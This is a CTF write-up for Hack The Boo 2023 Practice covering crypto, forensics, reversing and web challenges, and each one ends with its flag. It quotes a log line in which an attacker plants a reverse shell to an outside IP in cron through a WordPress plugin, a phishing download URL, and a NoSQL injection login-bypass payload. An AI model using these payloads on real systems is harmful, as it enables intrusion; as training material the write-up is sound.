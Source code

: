 ```yaml
---
author: pl4int3xt
layout: post
title: Hack The Boo - 2023 Practice
date: '2023-10-26 10:02:19 +0300'
cover: /img/cover_images/36.png
description: "Hack The Boo 2023 Practice CTF"
categories: [CTF, Hack The Boo Practice - 2023 ]
---
```

## Crypto
### Hexoding
```python
def main():
    first_half = FLAG[:len(FLAG)//2]
    second_half = FLAG[len(FLAG)//2:]

    hex_encoded = to_hex(first_half)
    base64_encoded = to_base64(second_half)

    with open('output.txt', 'w') as f:
        f.write(f'{hex_encoded}\n{base64_encoded}')
```
The first half is hex encoded while the other half is base64 encoded. After decoding the output we get the flag
```bash
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## Forensics
### Vulnerable season
We grep for 200 ok logs then we find this log
```bash
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
We build the base64 string from the echo pattern and we decode it
```bash
echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```
The flag is written from backwards so we reverse it and get this
```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```
### Spooky Phishing
After opening the index.html file the file tries to download a file from the url with the flag
```
https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe
```
## Reversing
### CandyBowl
We runs strings for the candy bowl binary and boom we get the flag 
```
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```
## Web 
### CandyVault
The website is using mongodb so we try nosql injection with the following payload
```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```
Then we have to change the content type before sending the request
```
Content-Type: application/json
```
Then we get the page with the flag
```
HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}
```